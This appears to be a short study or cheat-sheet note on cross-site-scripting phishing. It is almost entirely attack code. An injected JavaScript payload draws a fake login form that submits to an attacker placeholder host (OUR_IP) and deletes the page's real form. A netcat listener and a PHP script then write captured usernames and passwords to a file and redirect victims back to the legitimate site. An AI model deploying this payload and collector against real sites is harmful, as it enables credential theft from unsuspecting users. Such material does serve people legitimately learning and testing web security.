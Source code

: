 #### Phishing

Simple login javascript:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

Remove other parts of the page:
```javascript
document.getElementById('urlform').remove();
```

Together:
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove(); <!--
```

```shell-session
sudo nc -lvnp 80
```

```shell-session
mkdir /tmp/tmpserver
```
```shell-session
cd /tmp/tmpserver
```
```shell-session
vi index.php #at this step we write our index.php file
```
```shell-session
sudo php -S 0.0.0.0:80
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

This will log credentials and return the user to the legitimate site.


